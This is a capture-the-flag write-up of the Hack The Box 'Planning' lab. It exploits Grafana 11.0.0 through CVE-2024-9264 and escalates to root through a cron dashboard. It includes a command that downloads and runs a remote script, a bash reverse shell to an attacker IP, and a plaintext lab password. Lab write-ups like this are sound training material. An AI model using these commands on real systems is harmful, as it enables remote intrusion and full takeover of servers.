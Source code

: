 In this writeup we will talk about planning lab which is an easy lab in Hack the box

![planning](images/planning.png)

# nmap

![nmap](images/nmap.png)

with this nmap scan we can see http is open but when you go to the host it says planning.htb so you need to add planning.htb in /etc/hosts file

# enumeration

after going to planning.htb you will notice its just a courses website. but here comes the subdomain enumeration

using ffuf or any subdomain enumeration you will notice theres a grafana.planning.htb

then you will use the provided credentials and you will notice the version of grafana is 11.0.0 which is vulnerable to **CVE-2024-9264**

# **CVE-2024-9264**

this cve is RCE n grafana because of duckdb sqli

git clone it then you will need to make a reverse shell to gain shell

`python3 [CVE-2024-9264.py](http://cve-2024-9264.py/) -u admin -p 0D5oT70Fq13EvB5r -c "wget http://10.10.16.99:8000/rev.sh -O /tmp/rev.sh && chmod +x /tmp/rev.sh && /tmp/rev.sh" [http://grafana.planning.htb](http://grafana.planning.htb/)`

the [rev.sh](http://rev.sh) ⇒

`#!/bin/bash
bash -i >& /dev/tcp/10.10.16.99/9090 0>&1`

then you will gain access.

# privilege escalation

when you gain access you will notice you can type **env** comand

env ⇒ command that displays the environment variables

then you will notice the password of user **enzo** is displayed.

gain access as enzo so you can unlock more approaches

# Enzo

as enzo go for privilege escalation approaches is searchng for cronjobs. so you will notice the crontab.db inside /opt

display it and you will figure out that theres a dashboard for the cronjobs running somewhere

with running `netstat -tupln` you will notice theres something running in port 8000

with **port forwarding** technique you can display that service in your localhost

`ssh -L 8000:127.0.0.1:8000 enzo@planning.htb`

go to 127.0.0.1:8000 and then type the password you gained from the cronjobs db

we now have the cronjobs and can set a new one

set a new one that copies the bash binary into the tmp directory

![cronjobs](images/cron.png)
from enzo run ./bash -p in the tmp folder and now we are root

